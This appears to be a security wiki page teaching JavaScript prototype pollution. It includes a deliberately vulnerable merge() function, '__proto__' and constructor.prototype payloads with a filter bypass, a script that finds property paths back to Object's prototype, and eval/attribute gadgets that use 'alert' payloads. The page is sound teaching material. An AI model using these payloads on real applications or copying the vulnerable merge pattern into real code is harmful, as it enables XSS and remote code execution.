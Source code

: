 ```yaml
---
description: >-
  Exploit recursive property setting functions with special .__proto__ and
  .prototype options to add fallbacks to other property accesses
---
```


# Prototype Pollution

## Description

JavaScript has a feature called ["Object prototypes"](https://developer.mozilla.org/en-US/docs/Learn/JavaScript/Objects/Object\_prototypes) that allows you to add **default fallback properties** to objects as a fallback if they don't exist yet. Every type has a separate prototype, but instances of the same type will share that prototype.

<pre class="language-javascript"><code class="lang-javascript">const obj = {};
<strong>obj.__proto__.name = "John";
</strong>console.log(obj.name); // John (this object will now get a .name property)

const newObj = {};
console.log(newObj.name); // John (prototype was used as fallback)

const newFilledObj = { name: "Jane" };
console.log(newFilledObj.name); // Jane (won't replace existing properties)
</code></pre>

Check out the following article for a more detailed explanation of prototypes and pollution:

{% embed url="https://portswigger.net/web-security/prototype-pollution" %}
Detailed explanation of the theory behind prototype pollution
{% endembed %}

Where polluting comes in is when an application allows you to **set arbitrary properties on an object**. This allows you as the attacker to set the `__proto__` property and alter other objects because you control fallback values. Common sources of pollution come from recursive property setting functions like `merge()`, or parsing some attacker-controlled string into an object by using recursion.

<pre class="language-javascript" data-title="Vulnerable Example"><code class="lang-javascript"><strong>function merge(target, source) {
</strong><strong>  for (const attr in source) {
</strong><strong>    if (typeof target[attr] === "object" &#x26;&#x26; typeof source[attr] === "object") {
</strong><strong>      merge(target[attr], source[attr]);
</strong><strong>    } else {
</strong><strong>      target[attr] = source[attr];
</strong><strong>    }
</strong><strong>  }
</strong><strong>  return target;
</strong><strong>}
</strong>
const obj = {
  a: 1,
};
const input = JSON.parse('{"__proto__": {"b": 2}}');
merge(obj, input);
console.log(obj.b); // 2

const newObj = {};
console.log(newObj.b); // 2 (polluted)
</code></pre>

To better understand why this is vulnerable you should follow it with a debugger by setting a breakpoint at the merge function. The function will first take the first attribute from the `source` which is `__proto__`, and then because its value is an object, enter the recursion by calling itself with both values. This again looks at the attributes and finds b which isn't an object on target and source, so it sets the attribute directly on the target. At this step, we took `target["__proto__"]`, and then set `["b"] = 2` on it. This effectively does the same as in the previous example and will pollute the whole `Object` prototype as shown by the `newObj`.

In some other cases, you will find that this function isn't recursively setting properties, but instead sets the final property to a whole value at once. An example of this was a vulnerability in [xml2js < 0.5.0](https://security.snyk.io/vuln/SNYK-JS-XML2JS-5414874), where XML was parsed into an Object. This situation is not vulnerable to prototype pollution as it mimics the following example:

```javascript
let a = {};
a.__proto__.a = 1;
console.log({}.a) // 1

let b = {};
b.__proto__ = { b: 2 };
console.log({}.b) // undefined (not polluted)
```

For more complex types that aren't directly `Object`s, their prototype may be different from the target variable that you want to pollute. Take an HTML element, for example. This is a complex type with a lot of nested inheritance, but by chaining enough properties we can reaccess the Object prototype as everything in JavaScript inherits from it:

```javascript
const root = document.createElement("div");

root.__proto__; // HTMLDivElement
root.__proto__.__proto__; // HTMLElement
root.__proto__.__proto__.__proto__; // Element
root.__proto__.__proto__.__proto__.__proto__; // Node
root.__proto__.__proto__.__proto__.__proto__.__proto__; // EventTarget
root.__proto__.__proto__.__proto__.__proto__.__proto__.__proto__; // Object

root.__proto__.__proto__.__proto__.__proto__.__proto__.__proto__.a = 1;
console.log({}.a); // 1 (polluted)
```

## Bypassing filters using `constructor.prototype`

Because this vulnerability is relatively well-known, some developers correctly block the `__proto__` key from being set. This prevents the attack shown above, but there is another important keyword `.prototype` that **all constructors** have. We can easily access an instance's constructor by accessing its `.constructor` property.

```javascript
let obj = {};
obj.constructor.prototype.a = 1;

let newObj = {};
console.log(newObj.a); // 1
```

This is useful as it semi-replaces the need for `__proto__` in most cases, but one caveat is that we cannot simply chain them on top of each other because we will reach a loop of getting the same constructor every time, thus never reaching Object. Luckily, some other properties have different types, some of which may be `Object`s themselves. Accessing such an instance's `.constructor.prototype` brings us back to the Object prototype with which we can pollute anything.

{% embed url="https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/#step3-prototype-pollution-again" %}
Related writeup explaining this problem
{% endembed %}

<details>

<summary>Breadth-First Search (BFS) algorithm for property access to other types</summary>

The following script implements a Breadth-First Search algorithm to search all properties for new constructors that may be `Object`. It prints all the paths to the results and won't search duplicates. Use it by changing the `root` variable to the variable that you can set arbitrary properties on, then choose to target Object or any other type that you want to pollute. `Object` is a likely target because every other type inherits from it.

```javascript
// Get all accessible properties of an object
function props(obj) {
  // Source: https://stackoverflow.com/a/30158566/10508498
  var p = [];
  for (; obj != null; obj = Object.getPrototypeOf(obj)) {
    var op = Object.getOwnPropertyNames(obj);
    for (var i = 0; i < op.length; i++) {
      if (p.indexOf(op[i]) == -1) {
        p.push(op[i]);
      }
    }
  }
  return p;
}

// Breadth-First Search (BFS)
function search(root, target) {
  const checked = new Set();
  const queue = [[root, []]];

  while (queue.length > 0) {
    const [node, path] = queue.shift();
    // Don't check the same node twice
    if (checked.has(node)) {
      continue;
    }
    checked.add(node);

    // We found the target
    if (node.constructor === target) {
      // return path;
      console.log(path_string(path));
      continue;
    }

    for (const key of props(node)) {
      // Not allowed in strict mode
      if (key === "caller" || key === "callee" || key === "arguments" || key === "__proto__" || key === "prototype" || key === "constructor") {
        continue;
      }
      // Add childs to queue if they are not empty
      const child = node[key];
      if (child !== null && child !== undefined) {
        queue.push([child, [...path, key]]);
      }
    }
  }
}

// Convert path to property access string
function path_string(path) {
  return (
    path.reduce((acc, key) => {
      if (acc === "") {
        return key;
      }
      return acc + `["${key}"]`;
    }, "root") + '["constructor"]["prototype"]'
  );
}

const root = document.createElement("div");
console.log("Starting search...");
search(root, Object);
console.log("Done!");
```

</details>

The above creates an `HTMLDivElement` as an example starting point and finds paths all the way to a raw `Object`:

{% code title="Search results" %}
```javascript
root["ownerDocument"]["defaultView"]["JSON"]["constructor"]["prototype"]
root["ownerDocument"]["defaultView"]["Math"]["constructor"]["prototype"]
root["ownerDocument"]["defaultView"]["Intl"]["constructor"]["prototype"]
root["ownerDocument"]["defaultView"]["Atomics"]["constructor"]["prototype"]
root["ownerDocument"]["defaultView"]["Reflect"]["constructor"]["prototype"]
root["ownerDocument"]["defaultView"]["WebAssembly"]["constructor"]["prototype"]
root["ownerDocument"]["defaultView"]["CSS"]["constructor"]["prototype"]
root["ownerDocument"]["defaultView"]["console"]["constructor"]["prototype"]
```
{% endcode %}

That means you are able to pollute the `Object` prototype by setting the following properties:

<pre class="language-javascript"><code class="lang-javascript"><strong>const root = document.createElement("div");
</strong><strong>root["ownerDocument"]["defaultView"]["JSON"]["constructor"]["prototype"].a = 1
</strong>
console.log({}.a) // 1
</code></pre>

## Sinks (Gadgets)

When you find a way to pollute the prototype and have confirmed that any new instance of that type has the fallback property you set, it is time to find a way to exploit it. There are some common patterns that will unknowingly use prototype properties if their regular properties aren't set. These can then be overwritten and cause all kinds of extra behaviour inside the code. You may find a way to add a sensitive property that should normally not contain user input.

Here are a few examples of patterns to look for. What these all have in common is that properties are accessed, and prototypes will also be looked at:

<pre class="language-javascript"><code class="lang-javascript">// 1. "code" property is conditionally accessed, and prototype may be used if not set
<strong>({}).__proto__.code = "alert(1)";
</strong>
let settings = {};
if (settings.code) {
  eval(settings.code);
}

// 2. Keys in Object are iterated over, and prototype adds more attributes
<strong>({}).__proto__.onerror = "alert(2)";
</strong>
let attributes = { id: "unique", src: "..." };
let img = document.createElement("img");
for (const key in attributes) {
  // id, src, onload
  img.setAttribute(key, attributes[key]);
}

// 3. Polluting the Array prototype to add another index
<strong>[].__proto__["1"] = "alert(3)";
</strong>
let split = "key".split(":");
if (split[1]) {
  eval(split[1]);
}
</code></pre>

The above is useful when a custom gadget needs to be found, but common libraries have already been researched to find common gadgets collected in the following repository:

{% embed url="https://github.com/BlackFan/client-side-prototype-pollution" %}
Collection of **client-side** prototype pollution gadgets in well-known libraries
{% endembed %}

## Server-Side Prototype Pollution

Ordinarily, JavaScript runs in the Browser and the impact is often XSS. But engines like NodeJS which also support prototypes in the same way are also vulnerable to the same types of attacks. Gadgets will now be targetting the server side of the application, often resulting in Remote Code Execution by adding the right properties.

Read more about detecting such vulnerabilities in the following article:

{% embed url="https://portswigger.net/research/server-side-prototype-pollution" %}
Explaining research in **detection** of server-side prototype pollution in various **frameworks**
{% endembed %}

Next, you can find many libraries that also have known server-side gadgets allowing for high-impact bugs:

{% embed url="https://github.com/KTH-LangSec/server-side-prototype-pollution" %}
Collection of **server-side** prototype pollution gadgets in well-known libraries
{% endembed %}
